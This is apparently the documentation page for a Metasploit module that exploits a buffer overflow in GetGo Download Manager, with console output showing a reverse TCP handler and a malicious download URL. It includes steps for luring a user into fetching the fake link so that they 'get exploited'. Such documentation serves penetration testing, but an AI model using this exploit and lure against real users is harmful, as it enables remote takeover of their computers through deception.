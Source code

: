## Description

This modules adds a buffer overflow exploit for GetGo Download Manager, which supports 
4.9.0.1982 and 5.3.0.2712. Versions prior should also be vulnerable.

This exploit has been tested on Windows XP SP3. The vulnerable software can be downloaded
at [GetGo Download Manager 5.3.0.2712](https://www.exploit-db.com/apps/b26d82eadef93531f8beafac6105ef13-GetGoDMSetup.exe)

To use this, first start the module like the following example:

```
msf5 exploit(windows/browser/getgodm_http_response_bof) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.12:4444 
msf5 exploit(windows/browser/getgodm_http_response_bof) > [*] Using URL: http://0.0.0.0:8080/shakeitoff.mp3
[*] Local IP: http://192.168.0.12:8080/shakeitoff.mp3
[*] Server started.
```

The exploit should give you a fake link. Pass this link to the Getgo user, and instruct them to
do the following:

1. Start GetGo Download Manager
2. Click on the DOWNLOAD button
3. Click on New (if the link is already copied to the clipboard, clicking on this should trigger
   the download, and get exploited).
4. If the link isn't in the clipboard, instruct the user to enter the URL in the URL field, and
   click OK. The user should also get exploited this way.
